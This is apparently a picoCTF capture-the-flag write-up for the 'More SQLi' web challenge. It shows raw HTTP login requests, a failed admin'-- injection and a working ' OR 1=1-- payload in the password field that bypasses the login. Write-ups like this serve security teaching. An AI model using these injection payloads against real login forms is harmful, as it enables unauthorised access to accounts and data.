 # Challange Info

Name : More SQLi

Difficulty : Medium

Category : Web Exploitation

Link : https://play.picoctf.org/practice/challenge/358?category=1&page=1

# Writeup

Navigating the webapp http://saturn.picoctf.net:62528/.

Capture the login request and send it to repeater.

```
POST / HTTP/1.1

Host: saturn.picoctf.net:62528

Content-Length: 28

Cache-Control: max-age=0

Origin: http://saturn.picoctf.net:62528

Content-Type: application/x-www-form-urlencoded

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://saturn.picoctf.net:62528/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

Cookie: PHPSESSID=aimvq7poka2o9522sbtqqlj36j

sec-gpc: 1

Connection: keep-alive

username=asad&password=dsada
```

Trying SQL Injection `admin'--`.

```
username: admin'--
password: dsadas
SQL query: SELECT id FROM users WHERE password = 'dsadas' AND username = 'admin'--'
```

But it dosen't work.

So I changed payload according to the query.

```
POST / HTTP/1.1

Host: saturn.picoctf.net:62528

Content-Length: 33

Cache-Control: max-age=0

Origin: http://saturn.picoctf.net:62528

Content-Type: application/x-www-form-urlencoded

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://saturn.picoctf.net:62528/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

Cookie: PHPSESSID=aimvq7poka2o9522sbtqqlj36j

sec-gpc: 1

Connection: keep-alive

username=asad&password=' OR 1=1--
```

In response of this request there is the flag.
